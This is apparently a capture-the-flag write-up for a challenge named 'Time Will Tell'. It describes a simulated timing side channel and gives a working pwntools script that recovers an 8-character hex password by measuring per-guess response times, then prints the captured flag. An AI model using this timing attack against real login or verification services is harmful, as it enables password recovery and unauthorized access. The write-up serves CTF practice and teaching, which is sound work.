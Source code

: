 ## Time Will Tell
A side channel timing attack, which by reading the source code given to us is simulated by a sleep timer for every correct char in the password we guess. So the more correct chars in the correct locations, the longer a response takes. SO by measuring the time difference we can guess what the password might be, rather than being completely blind and bruteforcing.

Here is the script I came up with that isn't perfect, but got the job done.
```python
from pwn import *
import time

HOST = 'challenge.ctf.games'
PORT = 30407

hex_chars = '0123456789abcdef'
NUM_TRIALS = 1  # 1=a , 2=aa -> better avg + longer runtime 

def measure_response_time(conn, guess):
    total_time = 0.0
    for _ in range(NUM_TRIALS):
        conn.sendline(guess.encode())
        start_time = time.perf_counter()
        
        try:
            conn.recvuntil(b': ', timeout=5)
        except EOFError:
            break
        except Exception as e:
            print(f"Error: {e}")
            break

        end_time = time.perf_counter()
        total_time += (end_time - start_time)

    return total_time / NUM_TRIALS

def find_password(conn):
    password = ''
    for position in range(8):
        best_time = 0
        best_char = ''
        for char in hex_chars:
            guess = password + char + '0' * (7 - position)
            response_time = measure_response_time(conn, guess)
            print(f"Trying {guess}: {response_time:.4f} seconds")
            if response_time > best_time:
                best_time = response_time
                best_char = char
        password += best_char
        print(f"Found character {position + 1}: {best_char}")
    return password

# Main execution block
conn = remote(HOST, PORT)
data = conn.recvuntil(b': ', timeout=5)
print("Server says:")
print(data.decode())

password = find_password(conn)
print(f"Password found: {password}")

conn.sendline(password.encode())
try:
    response = conn.recvall(timeout=5).decode()
except EOFError:
    response = ''
print("Server response:")
print(response)
conn.close()
```
Output once correct password is generated:

Well done! Here's your flag: `flag{ab6962e29ed608c0710dbf2910f358d5}`
